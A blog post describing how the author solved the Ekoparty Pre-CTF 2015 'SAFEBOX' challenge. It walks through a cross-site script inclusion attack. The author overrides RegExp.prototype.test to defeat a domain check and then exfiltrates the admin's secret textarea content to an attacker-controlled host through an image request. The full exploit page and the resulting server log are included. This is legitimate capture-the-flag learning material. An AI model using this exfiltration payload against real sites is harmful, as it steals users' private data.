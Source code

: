```yaml
---
layout: post
title: "Eko Party Pre-CTF 2015 SAFEBOX"
date: 2015-09-21 18:35:45 -0400
author: [swappage]
comments: true
categories: [ekoparty]
---
```


### Solved by Swappage

This 200 points challenge was a really nice javascript and client-side security related task.

The website was allowing users to register and upon login it was possible to write some text in a text area and save it for future displaying.

Another function available in the web site was the possibility to submit an URL for review by the site administrator (in a sort of whistleblowing-like platform).

The objective of the task was to steal the administrator secret textarea content.

By logging off and on again from a different browser, the text area content was preserved, which suggested that this information was saved server side somewhere, but where?

By inspecting the page source code it was possible to spot a *file.js* which happened to contain the following code:

```javascript
function getCookie(cname) {
    var name = cname + "=";
    var ca = document.cookie.split(';');
    for(var i=0; i<ca.length; i++) {
        var c = ca[i];
        while (c.charAt(0)==' ') c = c.substring(1);
        if (c.indexOf(name) == 0) return c.substring(name.length,c.length);
    }
    return "";
}

function setCookie(cname, cvalue, exdays) {
    var d = new Date();
    d.setTime(d.getTime() + (exdays*24*60*60*1000));
    var expires = "expires="+d.toUTCString();
    document.cookie = cname + "=" + cvalue + "; " + expires;
}


function isSubDomain(c) {
    var d = document.domain;
    var r = new RegExp(c+"$").test(d);
    return r;
}

function saveSecret() {
    var s = document.getElementById('secretbox').value;
    setCookie('secret', encrypt(s),3);
}

function decrypt(data) {
    if (data=="") return "";
    return window.atob(data);
}

function encrypt(data) {
    return window.btoa(data);
}

function checkDomain(c) {
    var d = document.domain;
    var r = false;
    if(d == c) {
        r = true;
    } else {
        r = isSubDomain(c);
    }
    return r;
}

if(checkDomain("challs.ctf.site"))  {
    document.getElementById('secretbox').value = decrypt('aGVsbG8gd29ybGQK');
} else {
    console.log("error");
}
```
A couple of interesting things are happening here:

- The javascript is responsible for populating the text area with our code
- before populating the text area it uses some functions to verify that the domain from which the script is included is *challs.ctf.site* or a subdomain.

How can this be exploited?

Considering what we just said, the javascript is dynamically generated by the web application depending on the account data; this means that as long as the user is logged in to the application, the javascript will be loaded with the informations about the form content populated accordingly.

At this point what we can do is submit a link to a web page that we control, which includes the javascript from the server.
This would load the content into the user browser, and since now the data is completely accessible by the client, we can manipulate it and possibly grab it.

There is only one problem to solve: the javascript checks the domain from which the javascript is loaded.

But let's look at the function that actually checks for the subdomain: it uses the function *regExp.test()*.

This function is global and not defined in the js, therefore, what we can do is override it with a prototype in our code and force it to return always true, effectively nullifying the check.

At this point, what happens is that when the admin visits our page, his personal javascript is loaded, with the informations related to the form content loaded within it, while our code will take care of grabbing the content of a text area we properly set up with the same name as the original one.

The following code is the exploit i used to grab the secret message (the flag).

```html
<!DOCTYPE html>
<html class="full">
    <head>
        <meta charset="utf-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no">
        <meta name="description" content="EKOPARTY PRE-CTF 2015">
        <meta name="author" content="NULL Life">

        <!-- Latest compiled and minified CSS -->
        <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
        <link rel="stylesheet" href="/static/css/ctf.css" type="text/css"/>

        <link rel="shortcut icon" href="/static/img/favicon.ico">
        <link rel="stylesheet" type="text/css" href="//fonts.googleapis.com/css?family=Open+Sans" />

        <script src="https://ajax.googleapis.com/ajax/libs/jquery/2.1.3/jquery.min.js"></script>
        <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/js/bootstrap.min.js"></script>

        <title>safebox</title>
    </head>
<body>

<script>
    RegExp.prototype.test = function(d) { return true; }
</script>

<textarea id=secretbox name=secretbox style="width: 70%; " rows=10> </textarea>

<script src=http://challs.ctf.site:10000/safebox/file.js></script>

<script>
    document.write('<img src="http://xxx.xxx.xxx.xxx/collect.gif?cookie=' + document.getElementById('secretbox').value + '" />')
</script>
</body>
</html>
```

and here is the result

    52.20.148.242 - - [14/Sep/2015:23:30:37 +0200] "GET /collect.gif?cookie=EKO%7Bclient_side_security_for_the_lulz%7D

